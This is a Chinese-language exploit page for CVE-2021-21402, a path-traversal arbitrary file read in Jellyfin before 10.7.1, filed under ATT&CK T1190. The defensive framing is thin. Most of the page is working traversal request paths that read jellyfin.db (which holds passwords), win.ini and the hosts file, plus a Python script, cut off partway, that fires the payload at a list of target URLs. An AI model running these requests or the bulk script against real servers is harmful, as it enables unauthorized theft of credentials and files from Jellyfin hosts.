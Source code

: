 # T1190-CVE-2021-21402-Jellyfin任意文件读取漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Jellyfin是一个自由软件媒体系统，在10.7.1版之前的Jellyfin中，攻击者可以通过精心构造的请求读取Jellyfin服务器端的任意文件，当使用Windows主机作为操作系统时，此问题将变得跟加普遍，该漏洞已在10.7.1版本中修复。

影响范围：Jellyfin<10.7.1

## 检测日志

HTTP

## 测试复现

### 利用POC

从服务器下载带有密码的jellyfin.db：

/Audio/anything/hls/..%5Cdata%5Cjellyfin.db/stream.mp3/

未经授权读取windows的文件

GET  /Audio/anything/hls/..%5C..%5C..%5C..%5C..%5C..%5CWindows%5Cwin.ini/stream.aac/

GET /Audio/anything/hls/..%5C..%5C..%5C..%5C..%5C..%5CWindows%5Cwin.ini/stream.mp3/

读取host文件

/Audio/anything/hls/..%5C..%5C..%5C..%5C..%5C..%5CWindows%5CSystem32%5Cdrivers%5Cetc%5Chosts/stream.mp3/

读取带有密码的数据库文件

/Audio/anything/hls/..%5Cdata%5Cjellyfin.db/stream.mp3/

### Python_POC

```python
#批量ip
import requests
import sys
import urllib3
urllib3.disable_warnings()
 
if len(sys.argv)!=2:
    print('Usage: python3  xxx.py  urls.txt')
    sys.exit()
txt= sys.argv[1]
f=open(txt,'r+')
for i in f.readlines():  
    url=i.strip()
    url=url+"/Audio/1/hls/..%5C..%5C..%5C..%5C..%5C..%5CWindows%5Cwin.ini/stream.mp3/"
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36',
                "Content-Type": "application/octet-stream"
```